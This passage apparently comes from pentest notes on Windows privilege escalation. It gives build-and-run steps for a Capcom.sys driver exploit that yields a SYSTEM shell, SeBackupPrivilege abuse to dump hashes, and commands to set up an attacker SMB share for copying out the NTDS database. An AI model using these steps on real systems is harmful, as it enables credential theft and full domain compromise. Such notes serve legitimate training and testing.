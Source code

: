                 <li>Select Exploit Capcom</li>
                <li>Set "Release" and "x64"</li>
                <li>Rebuild solution</li>
                <li>ExploitCapCom.exe should be created</li>
            </ul>
        </ul>
        <li>Transfer ExploitCapCom.exe, LoadDriver.exe, and capcom.sys to victim machine</li>
        <ul>
            <li>LoadDriver.exe System\CurrentControlSet\MyService C:\&lt;path to capcom.sys&gt;</li>
            <li>.\ExploitCapCom.exe</li>
            <li>Should have system shell.</li>
        </ul>
    </ul>

    <li>SeBackupPrivilege</li>
    <ul>
        <li>Grants read access to all objects on the system regardless of ACL</li>
        <ul>
            <li>Read sensitive files</li>
            <li>Extract hashes</li>
            <ul>
                <li>Pass-the-hash</li>
                <li>Crack them</li>
            </ul>
        </ul>
        <li>Backup ntds file to SMB server</li>
        <table>
            <tr>
                <td>Create NTFS share on attacker</td>
                <td>
                    <table>
                        <tr>
                            <td>Create 2gb NTFS folder called ntfs.disk</td>
                            <td>dd if=/dev/zero of=ntfs.disk bs=1024M count=2</td>
                        </tr>
                        <tr>
                            <td>Create loopback setup</td>
                            <td>sudo losetup -fP ntfs.disk</td>
                        </tr>
                        <tr>
                            <td>Check losetup</td>
                            <td>losetup -a</td>
                        </tr>
                        <tr>
                            <td>Create NTFS disk</td>
                            <td>sudo mkfs.ntfs /dev/loop0</td>
                        </tr>
                        <tr>
                            <td>Mount NTFS disk to a folder</td>
                            <td>sudo mount /dev/loop0 ./smb</td>
                        </tr>
                        <tr>
                            <td>Edit SMB to setup SMB share</td>
                            <td>
                                <li>sudo vi /etc/samba/smb.conf</li>
                                <table>
                                    [shared]
                                    comment = &lt;anything&gt;
                                    browseable = yes
                                    path = &lt;local path to SMB share&gt;
                                    read only = no
                                    guest = yes
                                </table>
                            </td>